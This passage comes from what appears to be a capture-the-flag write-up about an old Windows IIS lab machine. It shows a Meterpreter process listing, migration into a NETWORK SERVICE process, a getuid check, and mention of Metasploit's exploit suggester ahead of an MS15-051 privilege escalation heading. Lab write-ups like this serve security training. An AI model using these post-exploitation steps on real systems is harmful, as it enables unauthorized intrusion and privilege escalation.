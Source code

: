 ```shell-session
568   1076  cidaemon.exe                                                    
596   396   svchost.exe                                                     
680   396   svchost.exe                                                     
740   396   svchost.exe                                                     
760   1076  cidaemon.exe                                                    
772   396   svchost.exe                                                     
800   396   svchost.exe                                                     
936   396   spoolsv.exe                                                     
964   396   msdtc.exe                                                       
1076  396   cisvc.exe                                                       
1124  396   svchost.exe                                                     
1180  396   inetinfo.exe                                                    
1216  396   svchost.exe                                                     
1328  396   VGAuthService.exe                                               
1408  396   vmtoolsd.exe                                                    
1460  396   svchost.exe                                                     
1604  396   svchost.exe                                                     
1700  396   alg.exe                                                         
1840  596   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
1912  396   dllhost.exe                                                     
2220  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
2288  596   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
2412  2220  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad0DCE5.tmp\svchost.exe
2428  596   wmiprvse.exe                                                    
2524  348   logon.scr                                                       

meterpreter > migrate 1840
[*] Migrating from 2412 to 1840...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter >
```

Our process was initially PID 2412, which for some reason didn't inherit the user from the parent process. Migrating to any one of the three processes running under the network authority account does the job.

Anyway, because this is a very old box we can expect to find all sorts of unpatched local exploits, Metasploit's local_exploit_suggester can do the hard work for us:

![img](/images/granny-writeup/5.png)

---

## Privilege escalation: ms15_051_client_copy_image
